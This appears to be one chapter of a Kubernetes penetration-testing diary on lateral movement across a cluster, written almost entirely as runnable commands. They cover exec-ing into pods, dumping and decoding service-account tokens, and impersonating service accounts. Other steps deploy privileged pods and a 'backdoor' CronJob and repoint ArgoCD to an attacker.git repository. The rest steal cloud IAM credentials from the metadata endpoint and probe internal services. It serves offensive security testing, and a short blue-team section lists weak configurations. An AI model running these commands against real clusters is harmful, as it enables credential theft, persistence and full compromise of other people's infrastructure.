

# 📄 **14_lateral_movement.md**

### *Phase 5 — Lateral Movement & Pivoting Across the Cluster*

**Mi Familia Edition — Kubernetes / k3s Pentest Diary**

---

````markdown
# 14 — Lateral Movement (Pod → Namespace → Cluster)
### Phase 5: Expanding Access Across Workloads, Namespaces & Identity Boundaries  
Once you understand the local pod environment (Section 13), the next step is to determine **how far you can move horizontally and vertically** through the cluster.

Lateral movement happens when an attacker:
- Reads secrets from another namespace  
- Execs into other pods  
- Moves into privileged workloads  
- Abuses operators (ArgoCD, Flux)  
- Leverages service accounts with elevated roles  
- Accesses cloud metadata  
- Manipulates network architecture  
- Hijacks service mesh identity (Istio)  

This is one of the highest-value phases in Kubernetes pentesting.

---

# 🧭 1. Pod-to-Pod Movement (Within Same Namespace)

### List pods in the namespace:
```bash
kcurl "$APISERVER/api/v1/namespaces/$NAMESPACE/pods" \
 | jq -r '.items[].metadata.name'
````

### Attempt exec into each pod:

```bash
for p in $(kubectl get pods -n $NAMESPACE -o name | cut -d/ -f2); do
  echo "[+] testing exec → $p"
  kubectl exec -n $NAMESPACE -it $p -- id 2>/dev/null
done
```

If ANY exec works →
You now control that container including:

* its filesystem
* its tokens
* its credentials
* its mounted secrets
* its network path

---

# 🧬 2. Namespace Enumeration & Cross-Namespace Movement

### List all namespaces:

```bash
NAMESPACES=$(kcurl "$APISERVER/api/v1/namespaces" | jq -r '.items[].metadata.name')
echo "$NAMESPACES"
```

### Test secret read access in each namespace:

```bash
for ns in $NAMESPACES; do
  echo "=== $ns ==="
  kcurl "$APISERVER/api/v1/namespaces/$ns/secrets" | jq 'length'
done
```

If ANY namespace returns >0 secrets →
🚨 **You have lateral movement into another tenant.**

---

# 🏦 3. ServiceAccount Token Hunting Across Namespaces

### Extract all SA tokens cluster-wide:

```bash
kcurl "$APISERVER/api/v1/secrets" \
 | jq -r '.items[] | select(.type=="kubernetes.io/service-account-token")'
```

### Decode token:

```bash
echo "<token>" | base64 -d
```

SA tokens inside other namespaces provide:

* privilege escalation
* pod exec
* secret reading
* access to operators

This is the #1 cross-namespace attack vector in real-world clusters.

---

# 📡 4. Service Discovery-Based Movement (Internal Service Pivot)

### List cluster services:

```bash
kcurl "$APISERVER/api/v1/services"
```

### Identify targets with internal dashboards or APIs:

Look for names like:

* `vault`, `etcd`, `argocd-server`
* `jenkins`, `gitlab`, `grafana`
* `postgres`, `redis`, `mongo`
* `istio-pilot`, `istiod`, `kiali`

Try in-cluster requests:

```bash
curl -s http://<service>.<namespace>.svc.cluster.local
```

This bypasses external auth — many internal admin panels are **completely unprotected**.

---

# 🔥 5. Exploiting Pod Exec Permissions for Movement

If RBAC allows:

```bash
kubectl auth can-i create pods/exec
```

Then you can:

* Exec into workloads in higher privilege namespaces
* Steal their environment variables
* Harvest database/API credentials
* Mount their volumes
* Masquerade as their service accounts

### Example — exec into an operator’s pod:

```bash
kubectl exec -n argocd -it argocd-server-XXXX -- sh
```

---

# 🧨 6. Lateral Movement via Deployments / CronJobs / Jobs

If you can create workloads in ANY namespace:

### Deploy a malicious pod:

```bash
kubectl run pwn --image=alpine -n targetns -- sleep infinity
```

### Deploy a privileged container:

```bash
kubectl run rootme -n targetns \
  --image=alpine \
  --overrides='{"spec":{"containers":[{"name":"c","image":"alpine","securityContext":{"privileged":true}}]}}' \
  -- sleep infinity
```

### Install persistence via CronJob:

```bash
kubectl create cronjob backdoor -n targetns --image=alpine --schedule="*/5 * * * *" \
  -- sleep 30
```

---

# 🚀 7. Operator Abuse (ArgoCD, Flux, Cert-Manager, Istio)

Operators are cluster-wide effect multipliers.

---

## 7.1 ArgoCD

If you can modify Application CRDs:

```bash
kubectl patch application example -n argocd \
  -p '{"spec":{"source":{"repoURL":"https://attacker.git"}}}'
```

ArgoCD sync will deploy **your containers** cluster-wide.

---

## 7.2 Flux

Flux stores Git deploy keys in secrets:

```bash
kubectl get secrets -n flux-system
```

Stealing deploy keys →
Full access to GitOps repo →
Modify YAML →
Compromise cluster.

---

## 7.3 cert-manager

If you can modify Issuers/ClusterIssuers:

You can issue certificates trusted by internal services →
mTLS bypass →
Istio identity hijack.

---

## 7.4 Istio

Steal JWT signing keys or pilot tokens →
Impersonate workloads inside mesh.

---

# 🛰️ 8. ServiceAccount Impersonation (Under-Detected but Catastrophic)

If RBAC allows:

```bash
kubectl auth can-i impersonate serviceaccounts
```

Then:

```bash
kcurl -H "Impersonate-User: system:serviceaccount:namespace:account" \
      "$APISERVER/api/v1/namespaces"
```

You now have:

* that SA’s identity
* its roles
* its permissions
* its workloads

This is one of the most powerful escalation vectors in Kubernetes.

---

# 🧩 9. Cross-Namespace Logs & Event Monitoring

Logs often contain:

* tokens
* passwords
* service URLs
* internal traffic patterns

Check logs:

```bash
kubectl logs -n targetns <pod>
```

If permitted, this is a **high-signal information disclosure vector**.

---

# 🌐 10. NetworkPolicy Evasion & Network Pivoting

### If no NetworkPolicies exist:

```bash
kubectl get netpol -A
```

Empty list → **flat L3 network**.

You can:

* Connect to any pod
* Connect to any internal service
* Reach databases
* Reach control plane components

### Test connectivity:

```bash
nc -vz <pod-ip> 80
```

---

# 💥 11. Node-Level Pivoting (Most Dangerous)

After gaining lateral pod access, look for node-level breakout:

1. **Privileged pods**
2. **hostPath** mounts
3. **docker.sock** / **containerd.sock**
4. **hostPID**
5. **hostNetwork**
6. **CAP_SYS_ADMIN**

Summary:

```bash
kcurl "$APISERVER/api/v1/pods" \
 | jq '.items[] | select(
     .spec.containers[].securityContext.privileged==true or
     .spec.volumes[]?.hostPath or
     .spec.hostNetwork==true or
     .spec.hostPID==true
   )'
```

If any pod meets these → **pivot into that namespace**, exec into it, and use it as the node jump host.

---

# ☁️ 12. Cloud Provider Pivot (AWS, GCP, Azure)

Cloud metadata may leak IAM roles.

### Test for AWS metadata:

```bash
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

If accessible:

* extract IAM role
* steal temporary AWS creds
* escalate into cloud control plane

Real-world EKS attacks typically end here.

---

# 📡 13. East-West Internal Service Pivot

Common targets:

* Redis
* Mongo
* PostgreSQL
* Elasticsearch
* Prometheus
* Minio
* Vault
* internal Helm registries
* internal API gateways

Testing example:

```bash
curl -s http://redis.default.svc.cluster.local:6379
```

---

# 🧠 14. Lateral Movement Decision Tree (Professional Use)



---

# 🛡️ 15. Defensive Notes (For Blue Team Reference)

Kubernetes lateral movement is easiest when:

* no network policies
* cross-namespace secret permissions
* CI/CD service accounts run with cluster-admin
* ArgoCD stored plaintext deploy keys
* cert-manager issuer permissions are wide open
* privileged workloads exist in shared namespaces
* container runtime sockets are mounted into pods
* logs contain secrets

These indicators match **real-world breaches**.

---

# 🎯 16. Summary

Lateral movement determines how widely an attacker can spread.

Key findings:

* Exec = direct pod takeover
* Cross-namespace secrets = credential compromise
* Operator abuse = supply-chain cluster takeover
* Cloud IAM = infrastructure compromise
* Privileged pods = node compromise
* Metadata access = cloud escalation

This phase identifies the **true blast radius** of your foothold.


##
##
